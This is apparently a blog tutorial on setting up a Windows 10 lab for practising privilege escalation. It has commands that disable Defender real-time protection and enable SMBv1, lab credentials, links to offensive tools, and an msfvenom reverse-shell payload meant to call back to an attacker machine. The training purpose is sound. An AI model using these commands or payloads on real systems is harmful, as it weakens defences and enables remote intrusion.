


## A Step-by-Step Guide

When it comes to privilege escalation, the biggest obstacle learners face is where to practice. Most of the time, this is a step that comes after performing all other steps like reconnaissance, scanning, and gaining low privilege user access. When I was looking to better understand privilege escalation, I wanted a lab where I could practice this step alone, without having to go through different steps to gain low privilege user access. This blog post will help you with that. We will learn how to set up a lab where we can practice our craft

To create a lab for testing and learning Windows privilege escalation, the following steps will help achieve that. As this is a post-exploitation process, this write-up assumes that the reader understands how to set up a hacking lab using virtual machine software and how to use Linux.

The following are the steps to set up a lab for practising Windows privilege escalation:

#### Step 1: 
Ensure that you have a virtual machine software with Linux installed. This is because we will be installing the Windows 10 that we will be attacking into the same virtual machine sotware.


#### Step 2: 
Download the [Windows 10 ISO](https://www.microsoft.com/en-us/software-download/windows10ISO) from the Microsoft website and download the following tools to your Linux directory: [PowerUp.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1), [winPEASany.exe](https://github.com/carlospolop/PEASS-ng/releases/download/20230212/winPEASany.exe), [setup script](https://raw.githubusercontent.com/Tib3rius/Windows-PrivEsc-Setup/master/setup.bat), and so on. You can download all the tools you want to use for Windows privilege escalation.


#### Step 3:
Install Windows 10 into a virtual machine. Again, as this is a post-exploitation step, it as sumes that you have a basic knowledge of setting up a hacking lab.


#### Step 4:
Log in to the Windows 10 machine and perform the following:

-  Enable SMB version 1 for easier file transfer. To do this, open PowerShell as an administrator and run:

`Enable-WindowsOptionalFeature -Online -FeatureName "SMB1Protocol-Client" -All`

-  Disable real-time protection on Windows. Open PowerShell as an administrator and run:

`Set-MpPreference -DisableRealtimeMonitoring $true`


#### Step 5:

-  If you downloaded the tools into the Windows 10 that we installed, then continue with step 7.
-  If you used a Linux machine to download the tools and script above, change the directory to the one with the tools and set up an SMB server in a directory where the tools are with the following command (my directory's name is  tools, change the directory name in the command to that of yours):

`python /usr/share/doc/python3-impacket/examples/smbserver.py tools .`


*The above screenshot shows tools in my kali machine.* 


&nbsp;  


 
The above screenshot shows the python command to setup smb server. 

&nbsp;  

#### Step 6: 
In our Windows 10, since we already enabled SMB protocol, open the Command Prompt (CMD) as an administrator and copy the setup.bat file from the Kali Linux machine where we set up the SMB server to our Windows machine using the following command:


```
copy \\{put IP address of the Linux machine}\{folder where you set up an SMB server}\setup.bat .

e.g. copy \\192.168.1.123\tools .
```

#### Step 7.
-   Run the setup script. On your cmd as administrator, change folder to where you saved the script and run the following command.

`.\setup.bat`

-   When the script finishes, restart Windows.

#### Step 8.
-   The VM (Windows machine) should auto-login as an admin user. We have to sign out and login as a user in order to continue with Windows privilege escalation practices.

Credentials for logging in after running a setup script
```
User: User, password: password321  
User: Admin, password: password123
```

-   Sometimes after you log in as a user, you will get a command prompt asking you for an Admin password. Provide the above password to continue.

#### Step 9.
-   Create a snapshot of your VM if the VM software you are using supports it. This will let you reset the VM to this exact point if you want to start again with a fresh setup.
-   A writable directory exists in the C drive called PrivEsc. You can use this directory to save files.

#### Step 10. 
In your Linux machine, create a reverse shell payload that will be used in a Windows machine when we have any admin privilege to execute commands. Run the following msfvenom command on Linux terminal

`# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.127 LPORT=53 -f exe -o reverse.exe`

Please change the `LHOST` to your `Linux IP address`, and `LPORT` to the `port you want to listen to.` This reverse shell can be caught using netcat or Metasploit’s own multi/handler.

- Copy this payload into windows PrivEsc folder.
`e.g. copy\\192.168.1.123\tools\reverse.exe . `
- Then create a listener using netcat or metasploit's multi/handler.
- Run the reverse shell payload (`.\reverse.exe`) to continue with the practise using linux machine instead on windows machine 


&nbsp;  
### Conclusion
The aforementioned steps demonstrate how to establish a lab for practising Windows privilege escalation. By following these instructions, you can create a completely functional lab environment to enhance your skills in Windows privilege escalation. Through this lab, you can gain valuable insights into identifying and exploiting vulnerabilities, comprehending the intricacies of escalating privileges, and improving your ability to secure Windows systems.
